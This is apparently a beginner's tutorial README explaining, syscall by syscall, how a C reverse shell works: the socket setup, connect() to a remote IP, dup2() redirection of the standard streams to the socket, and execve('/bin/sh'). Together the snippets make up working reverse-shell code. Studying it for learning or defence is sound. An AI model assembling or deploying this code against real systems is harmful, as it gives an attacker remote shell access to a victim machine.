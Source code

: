 # Reverse Shell in C using socket()  

#### lil disclaimer

I'm new to C programming, and I've decided to share my learning progressing.  
Please be forgiving if there are mistakes, feel free to correct me to help me gain new knowledge.
(obviously for purprose only)  

#
`socket()` is a syscall dependent on the `<sys/socket.h>` library. To understand its functioning, we need to understand the struct components that compose it.

## struct sockaddr_in  

```c
struct sockaddr_in server_addr;
```  

Defining the variable `server_addr` of type `struct sockaddr_in` serves to represent the server's address. Memory space is created to store this structure. Its fields can then be filled with specific address information for the server:

```c
struct sockaddr_in {
   uint8_t         sin_len;       // longueur totale      
   sa_family_t     sin_family;    // famille : AF_INET    
   in_port_t       sin_port;      // le numéro de port  
   struct in_addr  sin_addr;      // l'adresse internet  
   unsigned char   sin_zero[8];   // un champ de 8 zéros  
```  

Here are all the variables defined within the struct `sockaddr_in`.  
We only use `sin_family`, `sin_port`, and `sin_addr`.  
The `sin_family` variable is set to `AF_INET` as a parameter to designate the type of address the socket will communicate with, which in this case is `IPv4`.  
The `sin_port` variable takes the port as a parameter, which is itself passed to the `htons()` function (host to network short). `htons()` converts an unsigned short integer from host byte order to network byte order (big-endian).  
Therefore, by using `AF_INET` for the `sin_family`, `sin_port` for the port, and `htons()` for converting the port to network byte order, we are configuring the server address to be an `IPv4` address with the specified port.

## inet_pton()  

```c
inet_pton(AF_INET, IP, &(server_addr.sin_addr));
```  

`inet_pton()` is used to convert an `IPv4` or `IPv6` address (in basic string format) into a binary representation used by sockets. It takes the `AF` (Address Family) as a parameter, converts the `IP` address (currently in string format), and stores it in the `sin_addr` variable of the `server_addr` struct.  

## connect()  

```c
connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr));
```  

`connect()` establishes a connection between the client socket (`sockfd`) and the server socket (`server_addr`).  
`(struct sockaddr *)&server_addr` converts the pointer `server_addr` into a pointer of type `struct sockaddr *`.  
We learn from the function prototype in its man page that `connect()` expects the second argument to be a pointer to `struct sockaddr`.  
`sizeof(server_addr)` specifies the size of the `server_addr` struct in bytes, allowing `connect()` to know the size of the structure to perform the connection.  

## dup2()  

```c
    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);
```

`dup2()` duplicates an existing file descriptor to another file descriptor. It takes the parent file descriptor and the child file descriptor as arguments.  
`stdin` (0), `stdout` (1), and std`err (2) are redirected to the file descriptor of `sockfd`.  
In essence, any input retrieved from `stdin` will be read from the `socket`, and any output written to `stdout` and `stderr` will be sent to the server via the network connection.  

## execve()

```c
execve("/bin/sh", 0, 0);
```  

`execve()` is a syscall that allows executing a new program from a specified executable file (in this case, `/bin/sh`).  
From its man page, we learn that `execve()` takes the second argument as a char pointer to an array of arguments and the third argument as a char pointer to the environment in which the program is launched.  
Since those parameters are not used in our code snippet, they are defined as `0`.  
In this context, it executes the `/bin/sh` program, launching a shell process in the current execution environment.

## close()


```c
close(sockfd);
```
`close()` is used to close a file descriptor. Here, `close()` is called to release the allocated resources and terminate the network connection.    

## Resources
https://broux.developpez.com/articles/c/sockets/ (a complete french documentation)  
https://man.archlinux.org/man/  
https://man7.org/linux/man-pages/  
Special mention to @h0mbre ˚ʚ♡ɞ˚
